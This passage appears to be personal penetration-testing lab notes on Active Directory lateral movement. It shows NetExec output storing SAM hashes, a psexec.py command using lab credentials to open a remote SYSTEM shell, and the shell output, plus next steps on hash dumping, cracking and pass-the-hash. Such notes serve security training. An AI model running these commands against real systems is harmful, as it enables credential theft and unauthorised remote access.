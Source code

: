 ```Bash
SMB         192.168.213.132 445    IRONMAN          [+] Added 5 SAM hashes to the database
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

---

### PSExec Usage for getting a shell on a machine:

- For a specific machine with valid credentials:
    
    ```Shell
    python3 psexec.py marvel/fcastle:Password@01@192.168.213.130
    ```
    
    - Use this to get remote access on a machine with the entered credentials

- Output
    
    ```Bash
    ┌─[root@parrot]─[/home/z3tssu/TCM/impacket/examples]
    └──╼ \#python3 psexec.py marvel/tstark:Password@01@192.168.213.130
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    [*] Requesting shares on 192.168.213.130.....
    [*] Found writable share ADMIN$
    [*] Uploading file YoDJJpBG.exe
    [*] Opening SVCManager on 192.168.213.130.....
    [*] Creating service TUzF on 192.168.213.130.....
    [*] Starting service TUzF.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.19045.5247]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> hostname
    Punisher
    
    C:\Windows\system32> 
    ```
    

---

### Next Steps

1. **Hash Dumping**:
    - Extract hashes from compromised machines.
    - Use tools like **SecretsDump** for further exploitation.
2. **Password Cracking**:
    - Attempt to crack stored hashes for further privilege escalation.
3. **Pass the Hash**:
    - Use hashes for lateral movement without password cracking.

---

## Dumping SAM & LSA Hashes with secretdump.py
